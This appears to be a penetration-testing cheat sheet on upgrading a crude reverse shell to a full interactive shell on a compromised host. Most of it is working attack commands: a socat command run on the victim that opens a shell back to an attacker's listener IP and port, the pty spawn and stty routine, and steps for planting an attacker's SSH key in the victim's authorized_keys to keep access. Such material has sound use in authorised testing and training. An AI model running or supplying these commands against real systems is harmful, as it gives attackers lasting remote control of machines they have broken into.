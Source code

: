 # Upgrading to Interactive Shells

## Simple upgrades  
Python  
`python -c 'import pty;pty.spawn("/bin/bash")'`  

Script  
```
exec script /dev/null      
Script started, file is /dev/null    
bash
```

Socat  
Listener:  
```socat file:`tty`,raw,echo=0 tcp-listen:<PORT>```

Victim:  
`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LISTENER_IP>:<PORT>`  

## Upgrading to full interactive shell  
**In existing reverse shell**  
```
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z   
```

Attacker  
```
stty raw -echo  
fg  
```

Victim  
```reset 
export SHELL=bash  
export TERM=xterm-256color  
stty rows <num> columns <cols>  
``` 
**SSH**  


1. Create a .ssh directory in the home directory of the compromised user.
2. Create a new keypair on the attacker machine using `ssh-keygen` 
3. Transfer the public key to the victim machine at save in the .ssh folder as `authorized_keys`
4. Apply the appropriate file permissions  
```
chmod 0700 /home/user/.ssh  
chmod 0644 /home/user/.ssh/authorized_keys
```
6. SSH into the system using the private key.
